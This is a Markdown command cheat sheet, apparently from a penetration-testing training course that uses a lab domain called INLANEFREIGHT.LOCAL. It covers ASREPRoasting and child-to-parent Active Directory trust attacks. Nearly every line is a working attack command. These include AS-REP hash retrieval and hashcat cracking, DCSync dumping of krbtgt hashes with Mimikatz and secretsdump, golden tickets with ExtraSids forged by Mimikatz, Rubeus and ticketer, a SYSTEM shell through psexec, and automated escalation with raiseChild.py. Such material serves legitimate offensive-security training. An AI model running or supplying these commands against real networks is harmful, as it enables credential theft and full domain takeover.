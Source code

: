 

# ASREPRoasting

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-DomainUser -PreauthNotRequired \| select samaccountname,userprincipalname,useraccountcontrol \| fl` | Enumerating for `DONT_REQ_PREAUTH` Value using Get-DomainUser.|
| `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat` | Retrieving AS-REP in Proper Format using `Rubeus`. |
| `GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users` | Hunting for Users with Kerberoast Pre-auth not required, retrieving the AS-REP using `GetNPUsers` |
| `hashcat -m 18200 ygroce_asrep /usr/share/wordlists/rockyou.txt ` | Kerberos 5, etype 23, AS-REP. |



# Trust Relationships - Child > Parent

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Import-Module activedirectory; Get-ADTrust -Filter *`| Enumerating Trust Relationships using `Get-ADTrust` |
| `Get-DomainTrust `| Checking for Existing Trusts using Get-DomainTrust|
| `Get-DomainTrustMapping`| Perform a domain trust mapping|
| `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL \| select SamAccountName` | Checking users in the Child Domain using `Get-DomainUser`|
| `mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt`          | Uses Mimikatz to obtain the `KRBTGT` account's `NT Hash`|
| `Get-DomainSID` | Get the SID for the child domain|
| `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" `|Obtaining Enterprise Admins Group's SID using `Get-DomainGroup` |
|`Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"`| Obtaining Enterprise Admins Group's SID using `Get-ADGroup` |
| `ls \\academy-ea-dc01.inlanefreight.local\c$`| Using ls to Confirm No Access before ExtraSids Attack|
| `mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt` | Uses Mimikatz to create a Golden Ticket |
| `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt` | Uses Rubeus to create a Golden Ticket. |
| `mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm`     | Uses `Mimikatz` to perform a DCSync attack from a Windows-based host. |
| `secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt` | Performing DCSync with secretsdump.py |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 ` | Performing SID Brute Forcing using lookupsid.py |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 \| grep -B12 "Enterprise Admins"` | Grabbing the Domain SID & Attaching to Enterprise Admin's RID |
| `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker` | Constructing a Golden Ticket using ticketer.py |
| `export KRB5CCNAME=hacker.ccache`| Setting the KRB5CCNAME Environment Variable |
| `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5` | Getting a SYSTEM shell using Impacket's psexec.py |
| `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm` | Performing the Attack automate with raiseChild.py |
